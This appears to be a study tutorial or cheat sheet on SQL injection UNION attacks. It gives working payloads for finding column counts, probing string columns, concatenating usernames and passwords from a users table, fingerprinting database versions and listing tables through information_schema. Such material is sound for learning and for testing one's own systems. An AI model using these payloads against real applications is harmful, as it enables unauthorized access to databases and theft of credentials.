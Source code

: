 # SQLi UNION attacks
* Same Number of Columns: 
  * The original query and the injected query must return the same number of columns. If the original query returns, for example, three columns, your injected query should also produce three columns.
* Compatible Data Types:
  * The data types of corresponding columns in the original and injected queries must be compatible. This ensures that the data from both queries can be successfully combined. For instance, if a column in the original query has text data, the corresponding column in the injected query should also have text data.
# How to determine the number of columns?
1. Inject an **ORDER BY** clause with different numeric values (column indices) until an error occurs.
   * Example: \
   `' ORDER BY 1-- ` \
   `' ORDER BY 2--`, etc. \
  Output: `The ORDER BY position number 3 is out of range of the number of items in the selected list`
2.  Employ a series of **UNION SELECT** payloads with varying numbers of null values to identify the correct number of columns in the result set.
    * Example: \
    `' UNION SELECT NULL --` \
    `' UNION SELECT NULL, NULL--`, etc. \
    Output: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`
    * The use of NULL values in the injected **SELECT** query is strategic. It ensures compatibility with various data types, maximizing the chances of success when the column count is correct. 
    * However, the application's response may vary, In case of nulls matches the number of columns, the database returns an additional row in the result set with null values in each column.
* **NOTE**: In the context of Oracle databases, it is a requirement that every **SELECT** query includes the **FROM** keyword and specifies a valid table. Fortunately, Oracle provides a built-in table called **dual**, which serves this purpose. Therefore, injected queris on Oracle db typically take the following form: \
` UNION SELECT NULL FROM DUAL--` \
Also it's important to note that on MySQL databases, the `--` comment sequence must be followed by a space. Alternatively, the `#` character can be used to identify a comment.
# How to identify columns in the original query that can hold string data?
#### Once the number of required columns is determined, each column is probed by submitting `UNION SELECT` payloads with string values.
* Example: If the original query returns four columns, \
`' UNION SELECT  'g', NULL, NULL, NULL--` \
`' UNION SELECT  NULL, 'g', NULL, NULL--` \
`' UNION SELECT  NULL, NULL, 'g', NULL--` \
`' UNION SELECT  NULL, NULL, NULL, 'g'--` 
* If a database error occurs, such as conversion error, it means that the column's data type is not compatible with string data.
# String concatenation
#### When a query only returns a single column, it's possible to retrieve multiple values by concatenating them together and even include a separator to distinguish the combined values
* Example: On postgres we could submit the following input \
`UNION SELECT username ||'~'|| password FROM users`
* Output : `admin~~1337`
#### The double-pipe sequence `||` is a string concatenation operator on Oracle and other databases and the '~' char is used to separate the data.
# Querying the database type and version
#### To potentially identify the database type and version, we can inject provider-specific queries to check their compatibility and determine if any of them yield results.
* Queries to determine the database version on different database types:
  *  Oracle: ` SELECT * from v$version`
  * PostgresSQL: ` SELECT version()`
  * Microsoft, MySQL: `SELECT @@version`
* Example: On MySQL \
` UNION SELECT @@version--` \
* Output: `8.0.36.0ubuntu0.20.04.1`
# Listing the contents of the database
#### In the realm of databases, many types (with the exception of Oracle) feature a collection of views known as the information schema. This schema serves as a valuable resource for retrieving details about the structure of the database.
* Example: For instance, one can use the following query to obtain a list of tables within the database 
  * `SELECT * FROM information_schema.tables`
* To delve deeper into the structure of individual tables, one can query `information_schema.columns` , specifying the desired table .
  * Example: `SELECT * FROM information_schema.columns WHERE table_name='Users'`


